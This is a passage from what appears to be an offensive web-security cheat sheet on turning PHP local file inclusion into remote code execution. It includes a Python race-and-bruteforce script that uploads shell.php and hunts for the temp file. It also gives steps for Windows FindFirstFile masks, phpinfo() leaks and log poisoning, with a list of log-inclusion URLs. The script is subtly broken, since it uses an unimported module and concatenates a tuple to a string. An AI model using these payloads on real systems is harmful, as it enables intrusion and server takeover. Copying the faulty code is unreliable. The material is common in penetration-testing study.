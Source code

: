 ```python
import itertools
import requests
import sys

print('[+] Trying to win the race')
f = {'file': open('shell.php', 'rb')}
for _ in range(4096 * 4096):
    requests.post('http://target.com/index.php?c=index.php', f)


print('[+] Bruteforcing the inclusion')
for fname in itertools.combinations(string.ascii_letters + string.digits, 6):
    url = 'http://target.com/index.php?c=/tmp/php' + fname
    r = requests.get(url)
    if 'load average' in r.text:  # <?php echo system('uptime');
        print('[+] We have got a shell: ' + url)
        sys.exit(0)

print('[x] Something went wrong, please try again')
```

## LFI to RCE via upload (FindFirstFile)

:warning: Only works on Windows

`FindFirstFile` allows using masks (`<<` as `*` and `>` as `?`) in LFI paths on Windows. 

* Upload a file, it should be stored in the temp folder `C:\Windows\Temp\`.
* Include it using `http://site/vuln.php?inc=c:\windows\temp\php<<`


## LFI to RCE via phpinfo()

PHPinfo() displays the content of any variables such as **$_GET**, **$_POST** and **$_FILES**.

> By making multiple upload posts to the PHPInfo script, and carefully controlling the reads, it is possible to retrieve the name of the temporary file and make a request to the LFI script specifying the temporary file name.

Use the script phpInfoLFI.py (also available at https://www.insomniasec.com/downloads/publications/phpinfolfi.py)

Research from https://www.insomniasec.com/downloads/publications/LFI%20With%20PHPInfo%20Assistance.pdf

## LFI to RCE via controlled log file

Just append your PHP code into the log file by doing a request to the service (Apache, SSH..) and include the log file.

```powershell
http://example.com/index.php?page=/var/log/apache/access.log
http://example.com/index.php?page=/var/log/apache/error.log
http://example.com/index.php?page=/var/log/apache2/access.log
http://example.com/index.php?page=/var/log/apache2/error.log
http://example.com/index.php?page=/var/log/nginx/access.log
http://example.com/index.php?page=/var/log/nginx/error.log
http://example.com/index.php?page=/var/log/vsftpd.log
http://example.com/index.php?page=/var/log/sshd.log
http://example.com/index.php?page=/var/log/mail
http://example.com/index.php?page=/var/log/httpd/error_log
http://example.com/index.php?page=/usr/local/apache/log/error_log
http://example.com/index.php?page=/usr/local/apache2/log/error_log
```
